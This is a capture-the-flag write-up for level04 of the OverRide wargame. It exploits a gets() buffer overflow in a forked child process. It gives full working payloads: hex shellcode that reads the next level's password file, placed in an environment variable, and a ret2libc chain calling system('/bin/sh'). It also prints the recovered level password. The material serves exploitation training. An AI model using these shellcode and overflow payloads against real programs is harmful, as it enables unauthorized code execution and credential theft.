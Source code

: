 # Level04

## Analysis

This one is a bit more complicated since it involves a fork with a child process.

Although most of the program is uninteresting, we have one way to break things and it is the `gets(s)` call in the child process, this would allow us to overflow on EIP in the cilds process.

First thing we can do is find the address of said EIP:

```bash
(gdb) set follow-fork-mode child
(gdb) r
Starting program: /home/users/level04/level04 
[New process 1848]
Give me some shellcode, k
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 1848]
0x6e6e6e6e in ?? ()
(gdb)
```

So we overflow after 156 bytes.

After that, we will also need to store our shellcode somewhere since no call to exec can be found inside of this program.

However there is one troublesome piece of code in this program, we cannot use our `/bin/sh` shellcode... 

`v8 = ptrace(PTRACE_PEEKUSER, v9, 44, 0);`

This checks if one of the instruction pointed at by %EIP (pointer to the next instruction) in the child process contains "x0b" which is present in every shellcodes using `execve()`, hence why we cannot use the previous shellcodes.

Instead we will use [this](https://shell-storm.org/shellcode/files/shellcode-73.html) shellcode which reads from a file and prints the content of said file, in our case, the file containing the password to level05.

It will be stored in an ENV variable as follows:

```bash
export SHELLCODE=$(python -c "print '\x90' * 1000 + '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass'")
```

Now to find the address where this variable is stored :

```bash
```bash
(gdb) x/32s *((char **)environ)
0xffffd9b5:	"SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...
0xffffdd9d:	"\220\220\220\220\220\220\220\220\220\220\061\300\061\333\061\311\061\322\353\062[\260\005\061\311̀\211\306\353\006\260\001\061\333̀\211\363\260\003\203\354\001\215\f$\262\001̀1\333\071\303t\346\260\004\263\001\262\001̀\203\304\001\353\337\350\311\377\377\377/home/users/level05/.pass"
0xffffde02:	"SHELL=/bin/bash"
```

Now that we have every component, we can craft our payload:

```bash
[156 filler] + [address]
```

<details>
  <summary>Spoiler</summary>

  ```bash
  level04@OverRide:~$ python -c "print '\x90' * 156 + '\xff\xff\xd9\xcd'[::-1]" | ./level04
  Give me some shellcode, k
  3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
  child is exiting...
  level04@OverRide:~$
  ```

</details>

## Ret2libc

We can also use the return to libc exploit, for that we will need the address of `/bin/sh` which is often stored in the memory because of potential functions that may call it:

```bash
(gdb) info proc map
process 1850
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	0x8048000  0x8049000     0x1000        0x0 /home/users/level04/level04
	0x8049000  0x804a000     0x1000        0x0 /home/users/level04/level04
	0x804a000  0x804b000     0x1000     0x1000 /home/users/level04/level04
	0xf7e2b000 0xf7e2c000     0x1000        0x0 
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
	0xf7fd0000 0xf7fd4000     0x4000        0x0 
	0xf7fd8000 0xf7fda000     0x2000        0x0 
	0xf7fda000 0xf7fdb000     0x1000        0x0 
	0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
	0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
	0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
	0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2b000, 0xf7fcd000, "/bin/sh"
0xf7f897ec
1 pattern found.
(gdb) x/s 0xf7f897ec
0xf7f897ec:	"/bin/sh"
```

`0xf7f897ec` is the adreess of "/bin/sh", now we will also need the adress of `system` that we can get using gdb:

```bash
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```

After gathering our elements, we can craft our payload as follows:

```
[156 filler] + [system] + [4filler] + [binsh]
```

<details>
	<summary>Spoiler</summary>

```bash
level04@OverRide:~$ python -c 'print "A" * 156 + "\xd0\xae\xe6\xf7" + "BBBB" + "\xec\x97\xf8\xf7"' > /var/crash/tmp 
level04@OverRide:~$ cat /var/crash/tmp - | ./level04 
Give me some shellcode, k
whoami
level05
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```

</details>
